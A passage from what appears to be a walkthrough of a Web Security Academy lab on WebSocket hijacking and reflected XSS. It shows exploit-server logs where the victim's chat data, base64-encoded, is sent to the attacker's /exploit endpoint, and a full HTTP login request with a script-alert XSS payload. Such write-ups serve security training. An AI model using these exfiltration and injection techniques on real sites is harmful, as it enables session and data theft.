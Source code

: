 Data I saw on my server after delivering payload to victim:

```text
...
188.146.36.29   2025-04-08 20:15:56 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0"
188.146.36.29   2025-04-08 20:16:12 +0000 "POST / HTTP/1.1" 302 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0"
188.146.36.29   2025-04-08 20:16:12 +0000 "GET /deliver-to-victim HTTP/1.1" 302 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0"
10.0.3.60       2025-04-08 20:16:12 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.60       2025-04-08 20:16:12 +0000 "GET /exploit?message=eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
188.146.36.29   2025-04-08 20:16:13 +0000 "GET / HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0"
188.146.36.29   2025-04-08 20:16:13 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0"
```
Decoding base64 we see some chat part `{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}`

Then if we will dig deeper in our requests in burp in chat request history (not websocket!) we could find a new link `https://cms-0ad700fa03243c3180f140a600280051.web-security-academy.net` after checking this one we see a login page.
Try to login with any data and check request in burp - if we put it in the repeater and try XSS in login field, we could see that reflected XSS is presented.

PING
```html
POST /login HTTP/2
Host: cms-0ad700fa03243c3180f140a600280051.web-security-academy.net
Cookie: session=YAVCt7MVYwIpNByxvtdLWcJWVjoZQcpe
Content-Length: 62
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="127", "Not)A;Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: https://cms-0ad700fa03243c3180f140a600280051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://cms-0ad700fa03243c3180f140a600280051.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&password=arst
```

